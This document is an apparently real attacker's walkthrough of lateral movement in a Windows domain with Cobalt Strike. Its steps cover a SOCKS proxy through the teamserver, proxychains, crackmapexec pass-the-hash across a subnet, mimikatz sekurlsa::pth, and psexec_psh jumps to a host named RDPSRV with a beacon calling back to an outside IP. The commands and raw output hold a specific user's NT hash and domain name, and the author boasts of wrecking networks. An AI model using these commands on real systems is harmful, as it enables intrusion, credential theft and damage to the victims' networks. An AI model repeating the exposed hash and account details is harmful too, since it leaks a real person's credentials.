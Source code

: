 First I run SOCKS4A on the teamserver:
```
beacon> socks 8888
[*] started SOCKS4a server on: 8888
```

Edit the `proxychains.conf` file and edit it at the last line to include your C2 (the teamserver) IP address (you can use `nano` instead to make your life easier user)
```
$ vim /etc/proxychains.conf

socks4	<C2_IP> 8888
```

While the SOCKS Proxy server is up and running now we need to interact Cobalt Strike and check with credentials one by one
which you can navigate it on the toolbar easily. Go to **View** -> **Credentials** then select one of them and click **Edit** then copy the username and the NT hash to perform
**Pass the Hash** technique.

Then execute it with `crackmapexec` but run it as root!

```
$ sudo -s
# proxychains -q crackmapexec smb -u <username> -H <nt_hash> -d <domain> <IP>/<CIDR>
```

Here's what it looks like:

![[crackmapexec-creds-pth-test.png]]

With that we can run `psexec` (32-bit), `psexec_psh` (powershell one-liner 32-bit) or `psexec64` (64-bit) and the following syntax looks like this:

`beacon> jump <exploit> <IP> <listener>`

Now for whatever the reason is why SMB beacon bind shells just don't work on these machines during the time. I thought it could be
something that isn't configured properly to communite between the peers we use just used HTTP listener to pop the machines and it works.
Weird but I'm not sysadmin I just like to penetrate their networks and fuck it up when I see it lulz.

```
beacon> pth SHMC\sergeev.ma 924ec7e19e5de227b76184d71a231c1b
[*] Tasked beacon to run mimikatz's sekurlsa::pth /user:sergeev.ma /domain:SHMC /ntlm:924ec7e19e5de227b76184d71a231c1b /run:"%COMSPEC% /c echo 973013b9c69 > \\.\pipe\  
ac4b72" command
[+] host called home, sent: 31 bytes
beacon> jump psexec_psh RDPSRV sex
[*] Tasked beacon to run windows/beacon_http/reverse_http (173.249.45.143:80) on RDPSRV via Service Control Manager (PSH)
[+] received output:
Started service bc26d6d on RDPSRV
[+] received output:
user    : sergeev.ma  
domain  : SHMC  
program : C:\Windows\system32\cmd.exe /c echo 973013b9c69 > \\.\pipe\ac4b72  
impers. : no  
NTLM    : 924ec7e19e5de227b76184d71a231c1b  
 |  PID  12064  
 |  TID  16624  
 |  LSA Process is now R/W  
 |  LUID 1 ; 2665784146 (00000001:9ee4a352)  
 \_ msv1_0   - data copy @ 000001E8E06E0290 : OK !  
 \_ kerberos - data copy @ 000001E8E02457D8  
  \_ aes256_hmac       -> null                
  \_ aes128_hmac       -> null                
  \_ rc4_hmac_nt       OK  
```